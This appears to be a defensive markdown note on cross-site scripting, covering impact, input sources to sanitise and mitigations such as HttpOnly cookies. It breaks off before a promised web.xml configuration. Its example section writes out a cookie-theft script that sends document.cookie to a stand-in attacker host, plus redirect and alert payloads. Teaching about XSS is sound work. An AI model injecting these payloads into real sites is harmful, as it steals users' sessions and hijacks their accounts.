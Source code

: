 ##Primary Defenses:
* Input Validation
* Output encoding

##Impact: 
Session hijacking, full control of page, malicious redirects

##Problem:
User controlled data returned in HTTP response contains Javascript code.

Below fig illustrates how simple XSS attack work:

[here] (http://www.acunetix.com/wp-content/uploads/2012/10/how-xss-works-910x404.png)

##Example:

```
Cookie theft example
<script>document.location="http://evilwebsite.com"+document.cookie</script>
```

In the above URL the attacker can retrieve session cookie from the URL by parsing the URL.
It usually uses Javascript to do bad things like :

* Steal session cookies 

```
<script>alert(document.cookie)</script>
```
* Redirect to bad pages
<script>window.location="http://evilwebsite.com"</script>

* Rewrite page on the fly

##The main areas which needs to be sanitized before using in website are :

* The URL
* HTTP referrer objects
* GET parameters from a form
* POST parameters from a form
* Window.location
* Document.referrer
* document.location
* document.URL
* document.URLUnencoded
* cookie data
* headers data
* database data, if not properly validated on user input

##Sample code to prevent XSS:
There are several ways of mitigating XSS attack in web appplicaitons.Some of them are listed below:
* Use of HttpOnly flag - It is an additional flag included in a HTTP response header.This flag helps in reducing the risk of accessing the protected cookie at client side by the attacker (only if browser supports it).
* Also we can add below code in the server side program to prevent persistent XSS attack

###Example:

```
Cookie cookie = getMyCookie("myCookieName");
cookie.setHttpOnly(true);
```
* Configuration level changes can also prevent XSS attack by applying the following configuration in the deployment descriptor WEB-INF/web.xml:
